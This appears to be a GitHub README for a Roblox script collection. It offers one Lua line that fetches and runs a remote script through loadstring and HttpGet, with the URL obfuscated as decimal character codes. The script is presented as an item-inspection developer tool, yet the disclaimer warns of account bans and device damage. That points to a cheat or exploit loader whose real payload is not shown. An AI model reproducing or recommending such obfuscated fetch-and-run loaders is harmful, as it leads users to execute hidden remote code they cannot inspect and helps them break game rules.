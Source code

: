 <details>
  <summary><strong>⚠️ DISCLAIMER ⚠️</strong></summary>

  <br>
  
  The scripts provided in this repository are intended for personal use and experimentation only. By using or accessing these scripts, you acknowledge the following:

  <ul>
      <li><strong>We are not responsible</strong> for any consequences, including but not limited to account bans, device damage, or any other harm resulting from using these scripts.</li>
      <li>If you are banned from Roblox or face any negative outcomes, <strong>we are not liable</strong>.</li>
      <li>The scripts are provided <strong>as-is</strong>, with no guarantee of functionality or future updates.</li>
      <li><strong>You have no right to sue</strong> or take legal action against us for any issues or dissatisfaction with the scripts provided.</li>
  </ul>

  <p>Proceed only if you understand and accept the risks associated with using these scripts. <strong>By continuing to use them, you agree to the terms of the <a href="LICENSE">No Redistribution License (NRL)</a>.</strong></p>
</details>

---

# Roblox Script Loader Collection

Welcome to the **Roblox Script Loader Collection**! This repository contains a collection of useful Roblox scripts that are dynamically loaded via <code>loadstring()</code> for convenience.

---

## 🌟 Table of Contents

<ul>
    <li><a href="#itemtagger20-script">ItemTagger2.0 Script</a></li>
    <li><a href="#more-scripts-coming-soon">More Scripts Coming Soon</a></li>
    <li><a href="#important-notice">Important Notice</a></li>
    <li><a href="#license">License</a></li>
    <li><a href="#contributors">Contributors</a></li>
</ul>

---

## 🐜 1. ItemTagger2.0 Script

This is the first script in our collection, which dynamically loads the script from a remote server using **<code>loadstring()</code>** and **<code>HttpGet</code>** method.

### **Script**:
```lua
-- ItemTagger2.0 Script (First in the collection)

loadstring(game:HttpGet((function()local d="";for a in("104,116,116,112,115,58,47,47,114,97,119,46,103,105,116,104,117,98,117,115,101,114,99,111,110,116,101,110,116,46,99,111,109,47,97,114,111,111,73,104,115,116,115,104,98,100,50,48,50,52,47,82,111,98,108,111,120,83,99,114,105,112,116,115,47,114,101,102,115,47,104,101,97,100,115,47,115,99,114,105,112,116,115,47,73,116,101,109,84,97,103,103,101,114,50,46,48,46,108,117,97"):gmatch("%d+")do d=d..string.char(tonumber(a))end;return d end)()))()
```

---

## 💡 Usage

The **ItemTagger2.0** script is a great tool for inspecting items in your Roblox game. Here’s how you can use it:

<ol>
    <li><strong>Inspect Items in Your Game:</strong> This script allows you to inspect game items, making it easier for developers to see detailed information about objects, models, or anything within the game environment.</li>
    <li><strong>Script Development Tool:</strong> It’s a fantastic tool for script development because it provides an easy way to test and debug your scripts. You can use it to load and inspect items dynamically, which helps when creating new scripts and understanding how items behave.</li>
    <li><strong>Flexibility:</strong> The script can be modified and expanded to meet the specific needs of your game. Whether you're building a custom UI, working with items dynamically, or trying to learn more about objects, this script serves as a great starting point.</li>
</ol>

---

## ⚡ More Scripts Coming Soon

We're constantly adding new scripts to the collection. Stay tuned for more useful tools and utilities to enhance your Roblox game development.

---

## ⚠️ Important Notice

<strong>You are NOT allowed to fork, reproduce, or redistribute anything from the <code>scripts</code> branch of this repository.</strong> Unauthorized sharing or modifications of the scripts from this branch are strictly prohibited.

---

## 📜 License

This project is licensed under the **No Redistribution License (NRL)**. By using or accessing these scripts, you agree to the terms outlined in the [LICENSE](LICENSE) file.

---

## ✨ Contributors

<ul>
    <li><strong>Arooshbd2122</strong>: Creator and maintainer of this collection.</li>
</ul>

Feel free to contribute or suggest new scripts by creating a pull request!

---

Thanks for checking out the Roblox Script Loader Collection! Happy developing! 🚀
```

